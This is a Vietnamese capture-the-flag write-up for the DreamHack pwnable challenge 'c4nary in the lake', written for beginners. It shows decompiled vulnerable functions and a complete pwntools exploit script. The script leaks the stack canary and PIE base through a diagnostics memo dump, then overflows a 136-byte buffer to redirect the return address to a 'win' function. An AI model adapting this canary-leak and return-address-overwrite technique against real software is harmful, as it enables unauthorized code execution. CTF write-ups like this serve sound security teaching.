




# c4nary-in-the-lake---Write-up-----DreamHack
Hướng dẫn cách giải bài c4nary in the lake cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 24/2/2026

## 1. Mục tiêu cần làm
Vẫn như mọi khi thôi



Giờ tới phần đọc code, vì code khá dài nên mình sẽ chỉ show ra các code có lỗi thôi. Đầu tiên là hệ thống của bài, nó gồm `memo_len` và `diagnostics`.



```C
unsigned __int64 __fastcall do_read_memo(__int64 a1)
{
  __int64 v1; // rbx
  __int64 v2; // rbx
  __int64 v3; // rbx
  __int64 v4; // rdx
  __int64 buf[13]; // [rsp+20h] [rbp-80h] BYREF
  unsigned __int64 v7; // [rsp+88h] [rbp-18h]

  v7 = __readfsqword(0x28u);
  buf[8] = 0x1020304050607LL;
  buf[9] = 170LL;
  buf[10] = 0x1111111111111111LL;
  buf[11] = 0x2222222222222222LL;
  v1 = *(_QWORD *)(a1 + 8);
  buf[0] = *(_QWORD *)a1;
  buf[1] = v1;
  v2 = *(_QWORD *)(a1 + 24);
  buf[2] = *(_QWORD *)(a1 + 16);
  buf[3] = v2;
  v3 = *(_QWORD *)(a1 + 40);
  buf[4] = *(_QWORD *)(a1 + 32);
  buf[5] = v3;
  v4 = *(_QWORD *)(a1 + 56);
  buf[6] = *(_QWORD *)(a1 + 48);
  buf[7] = v4;
  if ( *(_DWORD *)(a1 + 68) )   // Kiểm tra diagnostics
  {
    write(1, "memo: ", 6uLL);
    write(1, buf, 0x180uLL);
  }
  else
  {
    write(1, "memo: ", 6uLL);
    write(1, buf, *(int *)(a1 + 64));
  }
  write(1, "\n", 1uLL);
  fflush(_bss_start);
  return v7 - __readfsqword(0x28u);
}
```

Nếu `diagnostics` on tức là True ( 1 ) thì nó sẽ thực thi `write(1, buf, 0x180uLL);`, ghi 384 byte tính từ đầu `buf`. Từ đó chúng ta sẽ có Canary, Binary. Làm sao để ta chỉnh `diagnostics` = 1 ?.

```C
unsigned __int64 __fastcall do_enable_diag(__int64 a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( *(int *)(a1 + 64) <= 31 )   // Nếu memo_len > 31 thì sẽ on
  {
    puts("diagnostics unavailable.");
  }
  else
  {
    *(_DWORD *)(a1 + 68) = 1;
    puts("diagnostics enabled.");
  }
  fflush(_bss_start);
  return v2 - __readfsqword(0x28u);
}
```

Ta chỉ cần nhập `memo_len` lớn hơn 31 và chạy thằng `do_enable_diag` là được. Sau đó thì ta chỉ cần vô hàm `do_submit_report` và nhập payload là xong.

```C
unsigned __int64 do_submit_report()
{
  char v1[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("submit report (up to 512 bytes):");
  fflush(_bss_start);
  read_n((__int64)v1, 512);   // Buffer Overflow, 136 mà cho nhập tận 512
  puts("received. processing...");
  fflush(_bss_start);
  return v2 - __readfsqword(0x28u);
}
```

## 2. Cách thực thi
Đầu tiên là đổi `memo_len` thành số lớn hơn 31 và chọn Enable diagnostics. Sau đó chọn Read memo để đọc nội dung từ stack ra.

```Python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'memo length? (1~64)', b'36')
p.sendlineafter(b'send memo bytes now:', b'A' * 36)

p.sendlineafter(b'> ', b'3')

#pause()

p.sendlineafter(b'> ', b'2')
```

Trong bài nó đã cho ta 1 cột mốc để biết nên lụm đến đâu.





Đằng trước stack với Canary là 1 loạt kí hiệu `"...`, đây là cột mốc để ta dừng chân.

```Python
p.recvuntil(b'""""""""')

stack_leak = u64(p.recv(8))
canary = u64(p.recv(8))
log.info(f'Stack : {hex(stack_leak)}')
log.info(f'Canary : {hex(canary)}')

p.recv(24)

PIE_leak = u64(p.recv(8))
log.info(f'PIE Leak : {hex(PIE_leak)}')
PIE = PIE_leak - 0x1bc7
log.info(f'PIE : {hex(PIE)}')
```

Bên cạnh đó mình cũng tính toán được sau 24 byte là Binary ngẫu nhiên, các bạn có thể nhìn hình stack và tự đếm. Sau khi có Canary, Binary, bài toán quay về kĩ thuật cơ bản là **Return Address Overwrite**.

```Python
payload = b'A' * 136
payload += p64(canary)
payload += b'B' * 8
payload += p64(e.symbols['win'] + PIE)
payload = payload.ljust(512, b'A')

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b'submit report (up to 512 bytes):', payload)
```

Vì hàm `read_n` yêu cầu phải nhập đủ số byte thì mới chạy được nếu không sẽ bị treo nên mình xài ljust.

Vậy là xong, bài này khá là đơn giản thôi. 1 bài Heap đơn giản kết hợp Canary và RAO. Thôi thì hãy cho mình 1 star để có động lực viết tiếp nha 🐧.

## 3. Exploit
```Python
from pwn import *

#p = process('./chall')
p = remote('host3.dreamhack.games', 9532)
e = ELF('./chall')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'memo length? (1~64)', b'36')
p.sendlineafter(b'send memo bytes now:', b'A' * 36)

p.sendlineafter(b'> ', b'3')

#pause()

p.sendlineafter(b'> ', b'2')

p.recvuntil(b'""""""""')

stack_leak = u64(p.recv(8))
canary = u64(p.recv(8))
log.info(f'Stack : {hex(stack_leak)}')
log.info(f'Canary : {hex(canary)}')

p.recv(24)

PIE_leak = u64(p.recv(8))
log.info(f'PIE Leak : {hex(PIE_leak)}')
PIE = PIE_leak - 0x1bc7
log.info(f'PIE : {hex(PIE)}')

payload = b'A' * 136
payload += p64(canary)
payload += b'B' * 8
payload += p64(e.symbols['win'] + PIE)
payload = payload.ljust(512, b'A')

p.sendlineafter(b'> ', b'4')
p.sendlineafter(b'submit report (up to 512 bytes):', payload)

p.interactive()
```
